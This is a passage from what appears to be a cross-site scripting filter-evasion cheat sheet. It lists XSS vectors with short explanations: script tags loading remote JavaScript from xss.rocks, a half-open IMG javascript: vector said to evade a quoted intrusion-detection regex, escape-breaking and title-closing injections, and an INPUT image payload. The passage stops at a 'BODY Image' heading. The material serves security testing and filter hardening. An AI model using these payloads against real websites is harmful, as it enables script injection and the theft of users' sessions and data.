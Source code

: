 `<SCRIPT SRC=http://xss.rocks/xss.js?< B >`

### Protocol Resolution in Script Tags

This particular variant was submitted by Łukasz Pilorz and was based partially off of Ozh's protocol resolution bypass below. This cross site scripting example works in IE, Netscape in IE rendering mode and Opera if you add in a `</SCRIPT>` tag at the end. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The ".j" is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag.

`<SCRIPT SRC=//xss.rocks/.j>`

### Half Open HTML/JavaScript XSS Vector

Unlike Firefox the IE rendering engine doesn't add extra data to you page, but it does allow the javascript: directive in images. This is useful as a vector because it doesn't require a close angle bracket. This assumes there is any HTML tag below where you are injecting this cross site scripting vector. Even though there is no close "\>" tag the tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: `/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/` because it doesn't require the end "\>". As a side note, this was also affective against a real world XSS filter I came across using an open ended `<IFRAME` tag instead of an `<IMG` tag:

`<IMG SRC="`<javascript:alert>`('XSS')"`

### Double Open Angle Brackets

Using an open angle bracket at the end of the vector instead of a close angle bracket causes different behavior in Netscape Gecko rendering. Without it, Firefox will work but Netscape won't:

`<iframe src=http://xss.rocks/scriptlet.html <`

### Escaping JavaScript Escapes

When the application is written to output some user information inside of a JavaScript like the following: `<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>` and you want to inject your own JavaScript into it but the server side application escapes certain quotes you can circumvent that by escaping their escape character. When this gets injected it will read `<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>` which ends up un-escaping the double quote and causing the Cross Site Scripting vector to fire. The XSS locator uses this method.:

`\";alert('XSS');//`

An alternative, if correct JSON or JavaScript escaping has been applied to the embedded data but not HTML encoding, is to finish the script block and start your own:

`</script><script>alert('XSS');</script>`

### End Title Tag

This is a simple XSS vector that closes `<TITLE>` tags, which can encapsulate the malicious cross site scripting attack:

`</TITLE><SCRIPT>alert("XSS");</SCRIPT>`

### INPUT Image

`<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">`

### BODY Image
